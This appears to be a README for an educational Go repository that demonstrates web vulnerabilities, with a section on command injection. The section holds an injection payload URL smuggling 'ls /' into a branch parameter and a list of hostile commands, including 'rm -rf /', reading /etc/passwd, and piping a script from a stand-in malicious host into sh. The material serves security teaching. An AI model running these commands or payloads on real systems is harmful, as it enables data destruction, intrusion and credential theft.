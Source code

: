 # Web Security Standards Demo

## Introduction
This repository serves as an educational resource for understanding and addressing common web security vulnerabilities. It currently covers the following vulnerabilities through practical demonstrations, with actionable steps to mitigate them:
- Cross-Site Request Forgery (CSRF)
- SQL Injection
- Command Injection
- Cross-Site Scripting (XSS)

By studying these examples, developers can cultivate a security-first mindset, essential for building robust, production-grade web applications. This repo will be continuously updated with additional web security vulnerabilities and practices to further enhance secure development techniques.

### Command Injection

Command injection is a security vulnerability that occurs when an application passes unsafe user-supplied data to a system shell or command interpreter. Attackers can exploit this flaw to execute arbitrary commands on the host operating system, potentially compromising the entire system.

#### Running the Demo

To start the server, run:

```bash
go run cmd/commandinjection/main.go
```

#### Example Attack

Access the following URL to simulate a command injection attack:

```
http://localhost:8080/gitlog?branch=main%3Bls%20%2F
```

This URL injects an additional `ls /` command after the intended `main` branch, demonstrating how unsanitized input can lead to arbitrary command execution.

#### Potential Malicious Commands

Attackers may attempt to run various harmful commands, such as:

- ``rm -rf /`` — Deletes all files on the server.
- ``cat /etc/passwd`` — Reads sensitive system files.
- ``whoami`` — Reveals the user context the server is running under.
- ``curl http://malicious-site.com/malware.sh | sh`` — Downloads and executes malicious scripts.
- ``ps aux`` — Lists running processes, potentially exposing sensitive information.

#### Mitigation Strategies

- **Never** pass user input directly to system commands.
- Use safe APIs or parameterized functions.
- Validate and sanitize all user inputs.
- Apply the principle of least privilege to the application process.

